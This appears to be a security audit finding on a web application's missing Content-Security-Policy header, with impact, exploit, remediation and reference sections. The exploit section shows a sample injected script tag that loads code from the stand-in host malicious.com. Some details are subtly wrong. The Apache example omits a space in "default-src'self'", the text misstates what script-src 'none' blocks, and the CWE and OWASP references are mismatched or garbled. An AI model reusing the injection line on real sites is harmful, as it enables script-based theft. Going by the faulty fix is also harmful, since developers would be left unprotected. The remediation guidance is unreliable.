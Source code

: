 The direct security principle being violated is the principle of least privilege, as the browser is allowed to load resources from any source, which can lead to the execution of malicious scripts.


**Impact:**

The specific consequences of not having a CSP include:
- Execution of malicious scripts, which can lead to data theft, session hijacking, and other attacks.
- Loading of malicious resources, which can lead to the execution of malicious code.
- Bypassing of security mechanisms, as attackers can use various techniques to bypass CSP.


**Exploit:**

An attacker might exploit the absence of CSP by injecting malicious scripts into the application. Since CSP is not enforced, the browser will execute the scripts, leading to the consequences mentioned above.

For example, an attacker could inject a script like the following:

```html
<script src="http://malicious.com/malicious.js"></script>
```

Since CSP is not enforced, the browser would execute the script from the malicious source.

Common tools used for exploiting CSP bypasses include:
- Burp Suite for intercepting and modifying HTTP requests
- OWASP ZAP for scanning and testing web applications
- CSP Evaluator for evaluating CSP policies


**Solution:**

To remediate the absence of CSP, follow these steps:

1. Set the CSP header in the web server or application server configuration.
2. Define the CSP policy to specify the allowed sources of resources.
3. Use a library or framework that automatically sets the CSP header with a default policy.
4. Regularly update and patch the web server or application server to ensure CSP is properly set.

For example, in an Apache configuration, you can use the following code to set the CSP header:

```apache
Header set Content-Security-Policy "default-src'self'; script-src 'none';"
```

This configuration sets a default-src policy that only allows resources from the same origin and disables the execution of inline scripts.

To verify the fix, you can:
- Manually test the application with various CSP bypass techniques to ensure they are blocked.
- Use automated tools to scan the application for CSP bypass vulnerabilities.
- Monitor the application logs for any signs of CSP exploitation attempts.


**Reference:**

- OWASP CSP Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html
- OWASP CSP Evaluator: https://www.owasp.org/index.php/OWASP_CSP_Evaluator
- CWE 200: Information Exposure: https://cwe.mitre.org/data/definitions/200.html
- OWASP Top 10: A2013-A1:2017 - Injection: https://www.owasp.org/index.php/Top_10_2013-A1-Injection
- OWASP Top 10: A2017-A1:2017 - Injection: https://www.owasp.org/index.php/Top_10-2017-A1-Injection
